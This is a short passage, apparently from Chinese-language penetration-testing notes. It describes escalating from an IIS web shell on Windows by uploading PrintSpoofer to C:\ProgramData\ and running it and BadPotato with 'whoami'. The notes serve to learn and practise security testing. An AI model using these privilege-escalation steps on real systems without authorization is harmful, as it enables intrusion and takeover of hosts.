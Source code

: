 是网站 IIS 权限

<img src=".\图片\Snipaste_2023-05-16_15-09-10.png" alt="Snipaste_2023-05-16_15-09-10" style="zoom:67%;" />

## 提权

### PrintSpoofer提权

打印机PIPE提权

把 PrintSpoofer 上传到可写目录 `C:\ProgramData\`

```bash
PrintSpoofer.exe -i -c "whoami"
```

<img src=".\图片\Snipaste_2023-05-16_16-02-39.png" alt="Snipaste_2023-05-16_16-02-39" style="zoom:80%;" />

### Badpotato提权

```bash
badpotato.exe whoami
```
